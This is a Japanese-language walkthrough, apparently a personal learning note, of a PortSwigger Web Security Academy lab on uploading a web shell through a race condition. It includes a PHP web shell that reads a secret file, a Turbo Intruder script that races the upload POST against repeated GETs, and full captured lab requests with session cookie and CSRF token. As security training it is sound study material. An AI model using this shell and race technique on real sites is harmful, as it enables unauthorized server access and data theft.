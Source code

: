 # 競合状態による Web シェルのアップロード

以下のラボではアップロードファイルを一時フォルダで検証後に削除しますが、
検証に時間が掛かるため、高速なリクエスト発行に対して脆弱です  
https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-race-condition

- 1. Burp Suite を起動して、Proxy タブからブラウザを立ち上げます
- 2. 立ち上げたブラウザから上記ハッキングラボにアクセスします
- 3. 一般ユーザーでログインして、アバター画像をアップロードします
- 4. 以下の攻撃用スクリプトを作成します

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

- 5. 上記スクリプトをアバター画像としてアップロードを試みます  
     以下のメッセージを受け取ります

```
Sorry, only JPG & PNG files are allowed Sorry, there was an error uploading your file.
```

- 6. Turbo intruder をロードしていない場合はロードします
- 7. POST /my-account/avatar HTTP/2 リクエストを Send to trurbo intruder します

- 8. 次のスクリプトを turbo intruder に張り付けます  
     POST した後に続けて、GET を 5 回行うスクリプトです。

````py
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint, concurrentConnections=10,)

    request1 = '''<YOUR-POST-REQUEST>'''

    request2 = '''<YOUR-GET-REQUEST>'''

    # the 'gate' argument blocks the final byte of each request until openGate is invoked
    engine.queue(request1, gate='race1')
    for x in range(5):
        engine.queue(request2, gate='race1')

    # wait until every 'race1' tagged request is ready
    # then send the final byte of each request
    # (this method is non-blocking, just like queue)
    engine.openGate('race1')

    engine.complete(timeout=60)


def handleResponse(req, interesting):
    table.add(req)
    ```
````

- 9. POST と GET リクエストをセットします

```py
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint, concurrentConnections=10,)

    request1 = '''POST /my-account/avatar HTTP/2
Host: 0abe004f049eacd6831d60b4002100a1.web-security-academy.net
Cookie: session=SDkRGCrtdT7VlSxFrK7jTtU9mNqtuVNR
Content-Length: 476
Cache-Control: max-age=0
Sec-Ch-Ua:
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: ""
Upgrade-Insecure-Requests: 1
Origin: https://0abe004f049eacd6831d60b4002100a1.web-security-academy.net
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarygcmqzABC2Dm8BS5B
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0abe004f049eacd6831d60b4002100a1.web-security-academy.net/my-account
Accept-Encoding: gzip, deflate
Accept-Language: ja,en-US;q=0.9,en;q=0.8

------WebKitFormBoundarygcmqzABC2Dm8BS5B
Content-Disposition: form-data; name="avatar"; filename="exploit.php"
Content-Type: application/octet-stream

<?php echo file_get_contents('/home/carlos/secret'); ?>
------WebKitFormBoundarygcmqzABC2Dm8BS5B
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundarygcmqzABC2Dm8BS5B
Content-Disposition: form-data; name="csrf"

uOUU8upgMGR4IQFANYoRMZAjlM0qGn2t
------WebKitFormBoundarygcmqzABC2Dm8BS5B--
'''

    request2 = '''GET /files/avatars/exploit.php HTTP/2
Host: 0abe004f049eacd6831d60b4002100a1.web-security-academy.net
Cookie: session=SDkRGCrtdT7VlSxFrK7jTtU9mNqtuVNR
Sec-Ch-Ua:
If-None-Match: "59d4-6022b63b045fb"
If-Modified-Since: Sat, 05 Aug 2023 11:33:59 GMT
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Sec-Ch-Ua-Platform: ""
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: image
Referer: https://0abe004f049eacd6831d60b4002100a1.web-security-academy.net/my-account
Accept-Encoding: gzip, deflate
Accept-Language: ja,en-US;q=0.9,en;q=0.8

'''

    # the 'gate' argument blocks the final byte of each request until openGate is invoked
    engine.queue(request1, gate='race1')
    for x in range(5):
        engine.queue(request2, gate='race1')

    # wait until every 'race1' tagged request is ready
    # then send the final byte of each request
    # (this method is non-blocking, just like queue)
    engine.openGate('race1')

    engine.complete(timeout=60)


def handleResponse(req, interesting):
    table.add(req)
```

- 10. 攻撃実行すると初回の GET リクエストのリターンコードが 200 です。レスポンスを見るとスクリプトの実行結果が格納されています。
      ![2](https://github.com/pea-sys/Til/assets/49807271/d8c2b4c7-39b5-4358-b714-ee7cab33d0fe)
